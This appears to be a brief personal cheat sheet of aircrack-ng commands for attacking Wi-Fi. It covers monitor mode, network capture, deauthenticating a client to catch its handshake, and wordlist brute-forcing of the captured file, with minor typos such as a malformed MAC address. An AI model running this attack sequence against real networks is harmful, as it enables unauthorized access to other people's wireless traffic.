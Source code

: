 # Aircrack

## Aircrack 

### Enable/list interface 

```csharp
airmon-ng start wlx00c0ca9020a9
```

### Kill process 

```csharp
 airmon-ng check kill
```

### Listen for wifi 

```text
 airodump wlan0mon
```

### Grab a network 

```csharp
airodump-ng -c 1 -w w1 --bssid 12:33:44:55:66:77 wlan0mon
```

### Dessassociate a client 

```csharp
aireplay-ng -0 0 -a 012:33:44:55:66:77 -c 94:65:2D:11:22:33 wlan0mon
```

### Sniff and get pcap

Then aircrack :\)

### bruteforcing

```csharp
aircrack-ng -w w.t w1-02.cap
```

\`\`

## Resources



